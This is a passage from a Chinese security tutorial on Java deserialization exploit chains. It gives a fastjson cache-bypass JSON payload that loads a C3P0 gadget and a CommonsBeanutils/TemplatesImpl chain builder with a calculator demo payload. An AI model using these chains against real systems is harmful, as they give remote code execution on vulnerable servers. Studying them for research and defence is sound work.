 最后进入到`deserializeFromByteArray`中，进行二次反序列化

![image-20220810144223161](./Zets/index/image-20220810144223161.png)

至此该链子就通了，构造起来呢，相信大家也都看出来了，可以利用 fastjson 来达成，在小于1.2.47的版本，使用缓存绕过

```json
{
    &#34;rand1&#34;: {
        &#34;@type&#34;: &#34;java.lang.Class&#34;,
        &#34;val&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;
    },
    &#34;rand2&#34;: {
        &#34;@type&#34;: &#34;com.mchange.v2.c3p0.WrapperConnectionPoolDataSource&#34;,
        &#34;userOverridesAsString&#34;: &#34;HexAsciiSerializedMap:hexstring;&#34;,
    }
}
```

最后那个封号不要忘记！

#### C3P0_Hex

这条链子就得看依赖了，有什么打什么，记得把序列化后的内容转化为16进制字符就可以了

茯苓这里给出 CBShiro 的例子（别问，问就是偏爱）

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;
import java.util.PriorityQueue;
import static util.Tool.*;

public class Hex {
    public static void main(String[] args) throws Exception{
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, &#34;_bytecodes&#34;, new byte[][]{
                payload(&#34;mate-calc&#34;).toBytecode()});
        setFieldValue(obj, &#34;_name&#34;, &#34;Poria&#34;);
        setFieldValue(obj, &#34;_tfactory&#34;, new TransformerFactoryImpl());

        BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        PriorityQueue&lt;Object&gt; queue = new PriorityQueue&lt;Object&gt;(2, comparator);
        queue.add(&#34;1&#34;);
        queue.add(&#34;1&#34;);

        setFieldValue(comparator, &#34;property&#34;, &#34;outputProperties&#34;);
        setFieldValue(queue, &#34;queue&#34;, new Object[]{obj, null});

        run(queue, &#34;debug&#34;, &#34;hex&#34;);
```